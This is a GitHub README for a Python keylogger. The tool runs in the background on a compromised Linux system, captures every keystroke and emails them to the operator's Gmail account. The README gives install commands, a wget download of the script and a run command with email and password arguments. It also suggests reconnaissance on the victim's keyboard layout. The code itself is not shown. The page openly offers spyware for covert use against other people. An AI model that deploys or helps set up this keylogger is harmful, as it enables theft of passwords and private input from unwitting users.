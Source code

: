 # Keylogger
Test keylogger, trash quality right now

## Description
Want a terrible keylogger? Look no further!

This keylogger runs in the background and copies all the keystrokes a user inputs. After an interval, it then emails these keystrokes to the gmail given.

### Prerequisites

This logger has been built on a number of assumptions:
* You've can run sudo on a comprimised linux system
* You have access to Gmail, and have turned on 'less secure app access' in your security settings

You'll need to install the following pip3 modules, if you don't already have them:
```bash
pip3 install keyboard
pip3 install argparse
```
### Installation
```bash
wget https://github.com/Purp1eW0lf/Keylogger/logger.py
```
### Usage
This logger requires you to feed your gmail email and password. I would create a throwaway account for this. 

You can also optionally feed the script the length of time you want it to wait and send you an email of the keystrokes. The default waiting period is 60 seconds, should you chooe not to input length
You'll need to install the following pip3 modules, if you don't already have them:
```bash
sudo python3 logger.py -e gmail@Address -p Password -l 120
```

### Known Issues
Sometimes the emails don't send at the regular interval, but will come in batch and you'll get a handful at once
* Fix: I'm not clever enough to figuire out why yet

The script tries to tranpose special characters by examining is the user presses the SHIFT key and a corresponding number. This is majorly flawed, however, as it is entirely keyboard dependent. It is therefore trash. The current script is based on a Macbook keyboard. 
* If you're able to do some recon on the user's keyboard, you can change the section mid-script and reassign the key values for better accuracy. 

### Contact

If you notice a way the script can be improved you're welcome to make requests and raise issues. 
You're also welcome to slide in my Twitter DMs and tell me how shit the logger is.
[@Purp1eW0lf](https://twitter.com/Purp1eW0lf)
